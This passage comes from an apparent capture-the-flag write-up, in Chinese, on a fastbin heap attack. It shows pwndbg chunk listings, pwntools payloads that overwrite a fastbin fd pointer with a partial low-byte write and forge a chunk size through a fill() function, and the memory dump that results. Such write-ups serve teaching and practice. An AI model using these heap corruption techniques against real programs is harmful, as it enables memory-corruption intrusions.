 ```python
0x55d82f950060 FASTBIN {
  prev_size = 0, 
  size = 33, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x61
}
0x55d82f950080 FASTBIN {
  prev_size = 0, 
  size = 97, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x55d82f9500e0 PREV_INUSE {
  prev_size = 0, 
  size = 134945, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

这时使用fill覆盖fast bin头部(即chunk2)的fd的值，将其改为small chunk的地址，这相当于small bin已经被free在fast bin中了。

```python
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)#chunk2
payload += p8(0x80)#地址低位
fill(0,payload)
```

然后：

```python
payload = p64(0) * 3
payload += p64(0x21)#chunk4_size
fill(3,payload)
```

这时：

```
pwndbg> x/32gx 0x557ac06f3000
0x557ac06f3000:	0x0000000000000000	0x0000000000000021 <=chunk0
0x557ac06f3010:	0x0000000000000000	0x0000000000000000
0x557ac06f3020:	0x0000000000000000	0x0000000000000021 <=chunk1
0x557ac06f3030:	0x0000000000000000	0x0000000000000000
0x557ac06f3040:	0x0000000000000000	0x0000000000000021 <=chunk2
0x557ac06f3050:	0x0000557ac06f3080	0x0000000000000000
0x557ac06f3060:	0x0000000000000000	0x0000000000000021 <=chunk3
0x557ac06f3070:	0x0000000000000000	0x0000000000000000
0x557ac06f3080:	0x0000000000000000	0x0000000000000021 <=chunk4
0x557ac06f3090:	0x0000000000000000	0x0000000000000000
0x557ac06f30a0:	0x0000000000000000	0x0000000000000000
0x557ac06f30b0:	0x0000000000000000	0x0000000000000000
0x557ac06f30c0:	0x0000000000000000	0x0000000000000000
0x557ac06f30d0:	0x0000000000000000	0x0000000000000000
0x557ac06f30e0:	0x0000000000000000	0x0000000000020f21
0x557ac06f30f0:	0x0000000000000000	0x0000000000000000
```
